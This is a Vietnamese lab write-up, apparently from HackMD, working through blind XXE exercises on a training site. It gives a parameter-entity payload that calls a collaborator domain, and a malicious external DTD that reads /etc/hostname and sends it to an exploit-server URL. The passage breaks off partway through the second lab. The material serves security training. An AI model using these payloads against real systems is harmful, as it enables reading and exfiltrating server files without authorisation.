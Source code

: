 >Truy cập lab và thấy có chức năng Check stock để kiểm tra số hàng trong kho:
![image](https://hackmd.io/_uploads/SJM5x6gM0.png)

>Bắt request `POST /product/stock` và thấy rằng phần body được viết bằng XML:
![image](https://hackmd.io/_uploads/B1fnlplGR.png)

>Nghi ngờ tại chỗ này có khả năng bị lỗ hổng XXE, cho request sang Repeater, thử thêm 1 số giá trị lạ làm sai cú pháp vào trong body xem XML Parse có đang thực hiện việc xử lí không: 
![image](https://hackmd.io/_uploads/S1rRlTxfR.png)

>Thử thêm thực thể đã được định nghĩa sẵn, như `&lt;` (dấu <): 
>![image](https://hackmd.io/_uploads/SJGlZpeMC.png)

>Thấy rằng server đã chặn request chứa các thực thể bên ngoài thông thường! Để bypass, ta sẽ sử dụng **XML parameter entity**. Đây là một dạng **entity đặc biệt** của XML sử dụng kí tự **%** thay **&**. Đồng thời những parameter entity chỉ được sử dụng trong DTD nó được định nghĩa. Ta sẽ sử dụng payload sau:
`<!DOCTYPE foo [ <!ENTITY % test SYSTEM "http://<COLLABORATOR_DOMAIN>"> %test; ]>`
![image](https://hackmd.io/_uploads/BkSp-agGA.png)

>Kết quả xuất hiện DNS và HTTP request gửi đến collaborator. Như vậy ta đã bypass được server bằng parameter entity: ![image](https://hackmd.io/_uploads/HydZG6ezC.png)

> Và hoàn thành được bài lab: ![image](https://hackmd.io/_uploads/B1m7MpefR.png)

# **5. Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD**
![image](https://hackmd.io/_uploads/r19QykZGC.png)

>Mục tiêu bài lab này là trích xuất được thông tin của server thông qua Blind XXE. Cách triển khai gồm các bước như sau:
**Bước 1:** Attacker host 1 file DTD tại đường dẫn **http://<EXPLOIT-SERVER>/exploit** có nội dung sau:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % exp "<!ENTITY &#x25; attack SYSTEM 'https://exploit-0ab100e304fa2eee8181929e0156005a.exploit-server.net/flag?name=%file;'>">
%exp;
%attack;
```
>Trong đó: 
> * `%file;` chứa nội dung cần lấy, ở đây là file `/etc/hostname`.
> * `%exp;` định nghĩa 1 paramter entity `%attack;` có chức năng query đến domain attacker đang host kèm theo nội dung của` %file;` thông qua tham số `name`.
    
> => Khi đó, nếu server truy cập đường dẫn chứa file DTD này, attacker sẽ lấy được nội dung cần lấy:
    ![image](https://hackmd.io/_uploads/B1UTg1-f0.png)

> **Bước 2:** Để làm được điều đó, ta sử dụng payload sau tại chức năng **Check stock** như các bài trên:
    ![image](https://hackmd.io/_uploads/rJNAWyWfA.png)
